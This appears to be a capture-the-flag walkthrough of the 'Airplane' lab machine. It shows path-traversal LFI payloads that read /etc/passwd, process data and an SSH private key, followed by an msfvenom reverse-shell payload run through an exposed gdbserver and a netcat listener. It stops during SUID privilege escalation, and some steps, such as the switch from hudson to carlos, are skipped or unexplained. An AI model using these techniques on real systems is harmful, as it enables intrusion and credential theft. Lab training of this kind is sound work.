





# Airplane
This room teaches us the important penetration-testing techniques, including network enumeration, Local File Inclusion (LFI), Linux `/proc` enumeration, gdbserver exploitation, SUID privilege escalation, and sudo wildcard/path traversal.
Are you ready to fly?
The goal is to obtain both `user.txt` and `root.txt`.
this room teach us a realistic attack chain against a misconfigured system we onna follow this steps:
1.Reconnaissance: Scanning open ports using Nmap.
2.Web Exploitation: Finding and exploiting a Local File Inclusion (LFI) vulnerability in a web application.
3.Initial Foothold: Enumerating processes and exploiting a running gdbserver service to get a shell.
4.Lateral Movement: Escalating privileges locally via SUID (Set owner User ID up on execution) binary misconfigurations.
5.Privilege Escalation: Abusing sudo rights on a script or tool to get full root access
here are steps by step walkthrough:
. Active recon
scan ports by using nmap that are in range 1 upto 10000 by using this command  nmap -sC -sV -T4 10.113.132.133 -oN initial -p1-10000
The `-oN initial` part saves the results to a file called `initial`

We've get this three tcp ports:

|Port|Service|
|---|---|
|`22`|SSH|
|`6048`|Unknown service|
|`8000`|Flask/Werkzeug web application|

We've also check that the web application has **LFI**.

**LFI (Local File Inclusion)** means the application can be tricked into reading files from the target machine. For example, we successfully read `/etc/passwd`.

Before browsing we need to tell the browser what airplane.thm mean
 so we add the target ip address for `airplane.thm` to `/etc/hosts`

Run:

```
sudo nano /etc/hosts
```

interesting thing the server is telling us to go to airplane.thm:8000 (airplane.thm is the host, if we ask we need the host name its because the server may behave differently depending on the hostname)

  i could then access: 
http://airplane.thm:8000

If we look carfully on our url we have "http://airplane.thm:8000/?page=index.html" on this the important part is "?page=index.html" this means the website is receiving a value from us
.  Identify port 6048


I tested whether the parameter was vulnerable to path traversal:

```
?page=../../../../etc/passwd
```

The server returned the contents of `/etc/passwd`, confirming a Local File Inclusion vulnerability.

The file expose interesting users including:

```
carlos
hudson
```
Now we know that there are two users Carlos and Hudson but still we don't have a shell

then test the web application:
curl -I http://airplane.thm:8000/

The application was reachable.

I also retrieved the main page:

curl -s "http://airplane.thm:8000/?page=index.html" | head -40


Web Application Enumeration

The application used a parameter called page:

?page=index.html

This was interesting because the application appeared to use the value of the parameter to determine which page/file should be loaded.

I tested different values.
I also filtered the output to identify users with interactive shells:

curl -s "http://airplane.thm:8000/?page=../../../../etc/passwd" | grep -E '/bin/(bash|sh)$'


The server returned the contents of /etc/passwd.

This confirmed a Local File Inclusion (LFI) vulnerability.

Exploring the Application

After confirming LFI, I used it to investigate the web application's environment.

I first checked the environment variables:

curl -s "http://airplane.thm:8000/?page=../../../../proc/self/environ" | tr '\0' '\n' | head -30

I then filtered useful variables:

curl -s "http://airplane.thm:8000/?page=../../../../proc/self/environ" | tr '\0' '\n' | grep -E '^(PWD|HOME|USER|PATH)='


as we know line linux using /procs we can find the process so we change the URL to "http://airplane.thm:8000/?page=../../../../proc/self/cmdline" this tells us the process handling our web request and tell us the command used to start the process and again we will have a file named "cmdline"

curl -s "http://airplane.thm:8000/?page=../../../../proc/self/cmdline" | tr '\0' ' '


This helped establish that the web application was running as a process on the target machine.

Inspecting Application Files

Because the LFI allowed arbitrary local files to be read, I investigated files related to the web application.

I checked the application source:

curl -s "http://airplane.thm:8000/?page=../../../../home/hudson/app.py"


I also checked:
curl -s "http://airplane.thm:8000/?page=../../../../home/hudson/app/app.py"

and the application's HTML template:

curl -s "http://airplane.thm:8000/?page=../../../../home/hudson/app/templates/airplane.html" | head -50

I also investigated:

/home/hudson/.ssh/id_rsa
/home/hudson/.ssh/config
/home/hudson/app/.env
/home/hudson/app/requirements.txt

For example:

curl -s "http://airplane.thm:8000/?page=../../../../home/hudson/.ssh/id_rsa"

These checks helped me understand the target's filesystem and application structure.

Investigating Port 6048

The original Nmap scan identified:

6048/tcp

but did not clearly identify the service.

I performed a more focused scan:

sudo nmap -sC -sV -p6048 MACHINE_IP

I also tested:

sudo nmap -p6048 --script x11-access MACHINE_IP

and connected directly to the port:

nc -nv MACHINE_IP 6048


The service was still not immediately clear.

Because we already had LFI, I used the vulnerability to investigate the Linux process information.

Using /proc to Identify the Service

Linux exposes information about running processes through the /proc filesystem.

I investigated:

/proc/<PID>/cmdline
/proc/<PID>/status
/proc/<PID>/fd
/proc/net/tcp

I first searched through process command lines.

The following loop was used to search PIDs:

for i in {1..1000}; do
    out=$(curl -s "http://airplane.thm:8000/?page=../../../../../proc/$i/cmdline" | tr '\0' ' ')
    if echo "$out" | grep -q "6048"; then
        echo "$i : $out"
    fi
done


It iterates through Process IDs (PIDs) 1 to 1000 , leveraging the web application's LFI vulnerability to read /proc/[PID]/cmdline. By filtering the output for '6048', it identifies the exact PID and command running the service on port 6048—revealing that gdbserver is the underlying binary


This tells us that port 6048 was being used by gdbserver this means we could connect to the airplane process remotely (gdbserver : is a program that allows a debugger such as GDB to connect to another machine and control a program remotely)


I then examined the process status:

curl -s "http://airplane.thm:8000/?page=../../../../../proc/534/status" | grep -E '^(Name|Pid|Uid|Gid):'


The process information showed that the process was associated with the service listening on port 6048.

Confirming Port 6048 Using /proc/net/tcp

I also see:

/proc/net/tcp

using:

curl -s "http://airplane.thm:8000/?page=../../../../../proc/net/tcp" | grep -i ':17A0'


The port appeared as:

17A0

in hexadecimal.

Converting:

0x17A0 = 6048

This confirmed that the process information we were investigating corresponded to the unknown service on TCP port 6048.

Identifying gdbserver


I continued examining the process command line:

/proc/<PID>/cmdline


until I identified:

gdbserver


The important discovery was:

gdbserver

running on:

6048

This was the key to obtaining initial access.

Understanding the gdbserver Attack

gdbserver is normally used for remote debugging.

A debugger can connect to it and control a program running on the target.

In this machine, the service was exposed on the network:

Target:6048

Because of this, it could be abused to execute a payload on the target.

The attack path was:

LFI
 ↓
/proc enumeration
 ↓
Identify port 6048
 ↓
Identify gdbserver
 ↓
Connect with GDB
 ↓
Execute reverse-shell payload
. Preparing the Payload

We need to find our kali vpn ip because we want the target to send us a response

ip addr show tun0


I first verified that msfvenom was available.


then i generated a Linux x64 reverse-shell ELF payload:


msfvenom -p linux/x64/shell_reverse_tcp LHOST=YOUR_TUN0_IP LPORT=4444 -f elf -o airplane_payload.elf


I verified the generated file:

file airplane_payload.elf


I also inspected the payload to make sure it contained the expected network configuration.

. Starting the Listener

Before executing the payload, I started a Netcat listener on my Kali machine:

nc -lvnp 4444


The listener was waiting for the target to connect back:

Kali
10.x.x.x:4444
       ↑
       |
       |
Target


. Connecting to gdbserver

I started GDB:

gdb


Then connected to the remote gdbserver:

(gdb) target extended-remote airplane.thm:6048


The target architecture was checked during the process.


. Executing the Payload

After establishing the remote GDB connection, I uploaded/configured the payload and executed it through the remote debugging session.

The payload was an ELF reverse-shell executable:

airplane_payload.elf


The gdbserver executed the payload, causing the target machine to initiate a connection back to my Netcat listener.

. Obtaining the Reverse Shell

The listener received the incoming connection.


I then verified the account:

whoami

and:

id

The shell gave me access as:

hudson


Then the target downloads the binary.elf


By doing this we changed the user from hudson to Carlos , after we confirm that we are logged as carlos we inspect carlos home and we found the user.txt file and we can see the txt inside and find the flag
whoami
ls -la /home/carlos
cat /home/carlos/user.txt





WE FOUND THE USER FLAG
Next we need to have a root privileged to find the root flag

First we will check our current privilege by running "id" we care only about euid=1000(carlos) because this is the effective identity

We suspect that the file might be in the find program so we do

ls -l /usr/bin/find
We confirmed that this was a SUID program
ls -la /home/carlos/.gnupg
This will help us see if carlos have something interesting in his GPG configuration there was a private-key but its not usable so we generate an ssh key
ssh-keygen -t rsa
The file in which the key will be saved is
/tmp/carlos_key
So now two files were created
/tmp/carlos_key
/tmp/carlos_key.pub
The private key or the first one proves that we are allowed to log in and the public or the second one is placed in the users authorized_keys file






